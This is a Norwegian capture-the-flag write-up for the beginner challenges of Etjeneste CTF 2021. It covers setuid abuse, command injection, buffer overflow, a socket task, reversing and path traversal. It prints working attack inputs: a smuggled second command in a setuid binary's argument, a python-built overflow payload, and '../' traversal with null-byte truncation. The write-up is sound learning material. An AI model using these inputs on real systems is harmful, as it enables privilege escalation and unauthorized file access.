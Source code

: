 # Etjeneste CTF 2021

# 1_grunnleggende


## 1_scoreboard
Flagget nås ved `cat FLAGG`.

## 2_setuid
Flaggfilen eier vi ikke, men vi har en cat-kommando med setuid bit til den brukeren som eier filen. `./cat FLAGG`

## 3_injection
Binaryen *md5sum* har et setuid-bit satt for eieren av FLAGG. Vi kan kjøre `./md5sum "FLAGG; cat FLAGG"` for å få programmet til å kjøre to kommandoer som eieren av *md5sum*, `./md5sum FLAGG; cat FLAGG`

## 4_overflow
Vi ser at c-koden til binaryen bruker *strcpy()*, som lar oss overflowe bufferet som lagrer inputen vår. Vi kan også se at variabelen *above* må ha verdien "ABCDEFGH", før vi kan hoppe til adressen til shellkoden.
```bash
./overflow $(python3 -c "print('A'*40 + 'ABCDEFGH' + 'A'*24 + '000000')")
```

## 5_nettverk
Flagget kommer etter man har kommunisert med en server.
```python
import socket
import struct
import select

TCP_IP = "127.0.0.1"
TCP_PORT = 10015

def main():
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    conn.connect((TCP_IP, TCP_PORT))
    print(conn.recv(4096).decode("utf-8"))

    a = []
    for i in range(10):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((TCP_IP, TCP_PORT))
        a.append(s)
    print(conn.recv(4096).decode("utf-8"))

    sum = 0
    for b in range(len(a)):
        data = a[b].recv(4096)
        value = struct.unpack('>I',data)
        sum += value[0]

    conn.send(bytearray(struct.pack('>I', sum)))
    print(conn.recv(4096).decode("utf-8"))
    list = []
    while True:
        try:
            ready,_,_ = select.select(a, [], [], 10.0)
            for sock in ready:
                tpl = sock.recv(4096).decode("utf-8")
                list.append(tpl[0])
        except:
            break
    print("".join(list))

if __name__ == "__main__":
    main()
```

## 6_reversing
Ved å reversere filen *check_password* kan man se at:
- Passordet må være 32 bytes langt
- At de første 19 bokstavene er *Reverse_engineering*
- De neste bokstavene er *_er_* (hex tall gjort om til ascii)
- Slutter med bokstavene *morsomt__*
Strengen blir til slutt `Reverse_engineering_er_morsomt__`

Med Ghidra ser *check_password* slik ut:

![reversing](6_reversing.png)

## 7_path_traversal
Vi har et binary som leser filer i et directory som heter *bok*. Vi kan bruke path-traversal til å hoppe tilbake ett directory for å lese FLAGG-filen.
`./les_bok ../FLAGG`

### Bonusflagg
Det er et bonus flagg også. Vi kan se i c-koden til *les_bok* at det legges til en *.txt* på teksten vi sender som argument (fila vi vil lese). Vi kan terminere stringen før *.txt* blir lagt til med en url-enkodet null-byte, og lese flagget på samme måte som forrige.
`./les_bok ../BONUS_FLAGG%00`
